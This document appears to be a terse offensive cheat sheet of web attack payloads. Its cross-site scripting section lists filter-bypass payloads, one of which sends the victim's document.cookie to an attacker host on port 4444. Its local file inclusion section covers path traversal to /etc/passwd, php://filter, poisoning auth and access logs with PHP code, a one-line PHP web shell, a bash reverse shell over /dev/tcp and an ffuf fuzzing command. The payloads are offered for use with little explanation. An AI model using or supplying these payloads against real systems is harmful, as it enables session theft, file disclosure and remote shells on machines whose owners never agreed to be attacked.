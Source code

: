 ------------------------------------------------------------------cross site scripting------------------------------------------------------------------------
-	<ScRipT>alert("XSS");</ScRipT>
-	<scr<script>ipt>alert(1)</script>
-	<svg/onload=alert(1)>
-	<a href=javascript:confirm()>click here
-	<img src=`xx:xx`onerror=alert(1)>
-	<img src=//x55.is OnError=import(src)>
-	</script><script >alert(document.cookie)</script>
-	<script>new  Image().src="http://10.0.2.10:4444/bogus.php?output="+escape(document.cookie);</script>

To automate the process, use the following tools
-	xsstrike
-	xsshunter
-	BeEF
-	JShell
------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------

------------------------------------------------------------------------------------------------------------------------------------------Local File Inclusion----------------------------------------------------------------------------------------------------------------------------------------------------
-	../../../../../../etc/passwd%00.jpg  --> Null Byte will ignore the extension
-	php://filter/convert.base64-encode/resource=
- /roc/self/environ || /var/log/auth.log [ssh log file] || /var/log/apache2/access.log [web server log file]  --> You can poison any of these log files to get a reverse shell
- Ssh “<?php passthru(base64_decode(‘base64PAYLOAD==’))?>”@10.0.2.13 --> poison the auth.log file
- ./ngrok http 9000  && python -m SimpleHTTPServer --> these two are required in order to execute a php file from an external server
- <?php echo system($_GET['cmd']); ?>
- ../../../../../../../../../var/log/apache2/access.log
- bash -c "bash -i >& /dev/tcp/192.168.119.3/4444 0>&1"
- ffuf -w /usr/share/wordlists/seclists/Fuzzing/LFI/LFI-Jhaddix.txt -u http://<RHOST>/admin../admin_staging/index.php?page=FUZZ -fs 15349 --> searching for LFI
